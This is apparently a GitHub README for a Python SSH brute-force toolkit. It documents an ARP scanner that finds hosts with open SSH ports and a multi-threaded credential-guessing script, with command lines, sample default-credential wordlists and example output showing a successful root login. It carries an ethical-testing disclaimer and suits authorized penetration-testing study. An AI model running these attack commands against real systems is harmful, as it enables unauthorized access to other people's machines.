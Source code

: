 # SSH Brute-Force Suite (by IP or MAC Address)

This collection of Python scripts is designed for penetration testing on a local network. It consists of two main tools:

1.  `ssh_mac_scanner.py`: Scans the local network to discover active devices and checks if their SSH port is open.
2.  `ssh_brute_mac-ip.py`: Performs a brute-force attack on an SSH service, with the flexibility to target by either IP address or MAC address.

---

### Key Features

* **Network Scanning**: Discover all active devices within a specific IP range using an ARP scan.
* **SSH Port Check**: Quickly verify if port 22 (or a custom SSH port) is open on discovered devices.
* **Flexible Targeting**: Launch a brute-force attack using the target's IP address or its MAC address (the script will automatically find the corresponding IP from the ARP table).
* **Wordlist Support**: Use wordlists for both usernames and passwords.
* **Multi-threading**: Perform attacks quickly by using multiple threads simultaneously.
* **Logging**: All Paramiko connection activities are logged to `paramiko.log` for debugging purposes.

---

### Requirements

These scripts require Python 3 and a few additional libraries.

* `paramiko`
* `scapy`

---

### Installation

1.  **Clone this repository:**
    ```bash
    git clone [https://github.com/Fauzan-Putra/Simple-SSH-Bruteforce-Tools.git](https://github.com/Fauzan-Putra/Simple-SSH-Bruteforce-Tools.git)
    cd Simple-SSH-Bruteforce-Tools
    ```

2.  **Install the required libraries using pip:**
    ```bash
    pip install -r requirements.txt
    ```
    *(Ensure you have a `requirements.txt` file containing `paramiko` and `scapy`)*

---

### How to Use (Workflow)

The recommended workflow is to first use `ssh_mac_scanner.py` to identify potential targets, and then use `ssh_brute_mac-ip.py` to attempt to gain access.

#### Step 1: Scan the Network with `ssh_mac_scanner.py`

Run this script to find hosts with an open SSH port on your network. Replace `192.168.1.0/24` with your network's CIDR range.

```bash
python ssh_mac_scanner.py --range 192.168.1.0/24
```

**Example Output:**

```
[INFO] Performing ARP scan on 192.168.1.0/24...
[INFO] Found 5 active devices.

192.168.1.1     a1:b2:c3:d4:e5:f6   SSH: CLOSED
192.168.1.5     b2:c3:d4:e5:f6:a1   SSH: OPEN
192.168.1.9     c3:d4:e5:f6:a1:b2   SSH: CLOSED
192.168.1.12    d4:e5:f6:a1:b2:c3   SSH: OPEN
...
```

From the output above, we have identified two potential targets: `192.168.1.5` and `192.168.1.12`.

#### Step 2: Perform the Attack with `ssh_brute_mac-ip.py`

Once you have a target, use the brute-force script. You will need wordlists for usernames and passwords.

**Prepare your wordlist files:**

* `users.txt`:
    ```
    root
    admin
    user
    test
    ```

* `passwords.txt`:
    ```
    123456
    password
    admin
    root
    ```

**Example Commands:**

1.  **Attacking using an IP Address:**
    ```bash
    python ssh_brute_mac-ip.py --host 192.168.1.5 --userlist users.txt --wordlist passwords.txt --threads 10
    ```

2.  **Attacking using a MAC Address:**
    ```bash
    python ssh_brute_mac-ip.py --mac b2:c3:d4:e5:f6:a1 --userlist users.txt --wordlist passwords.txt --threads 10
    ```

3.  **Attacking with a single username:**
    ```bash
    python ssh_brute_mac-ip.py --host 192.168.1.5 --user root --wordlist passwords.txt
    ```

**Example Attack Output:**

```
[INFO] Found IP 192.168.1.5 for MAC b2:c3:d4:e5:f6:a1
[INFO] Starting brute-force on 192.168.1.5 with 4 users and 4 passwords (max 10 threads)
[-] Failed: root:123456
[-] Failed: root:password
[+] LOGIN SUCCESSFUL --> root:root
[-] Failed: admin:123456
...
```

---

### Disclaimer

⚠️ **WARNING**: This tool is created for educational purposes and ethical security testing only. Using this tool against systems without the explicit permission of the owner is illegal. The author is not responsible for any misuse or damage caused by this program. Use it wisely and responsibly.
